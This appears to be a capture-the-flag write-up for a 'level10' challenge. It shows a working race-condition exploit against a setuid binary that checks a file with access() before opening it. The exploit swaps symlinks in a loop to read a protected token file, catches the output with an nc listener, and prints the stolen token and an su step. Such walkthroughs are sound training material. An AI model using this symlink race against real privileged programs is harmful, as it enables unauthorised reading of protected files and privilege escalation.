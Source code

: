 # level10

```bash
ls -l
# -rwsr-sr-x+ 1 flag10 level10 10817 Mar  5  2016 level10
# -rw-------  1 flag10 flag10     26 Mar  5  2016 token
```

With gdb we can see calls to `access` then `open`: \
[c access function vulnerability](https://stackoverflow.com/questions/7925177/access-security-hole) \
[TOC/TOU](https://en.wikipedia.org/wiki/Time-of-check_to_time-of-use)

```bash
nc -lk 6969
while true; do echo "fake" > /tmp/a; ln -sf /tmp/a /tmp/token; ln -sf ~/token /tmp/token; done
while true; do ./level10 /tmp/token 127.0.0.1; done
# .*( )*.
# woupa2yuojeeaaed06riuj63c

su flag10
```
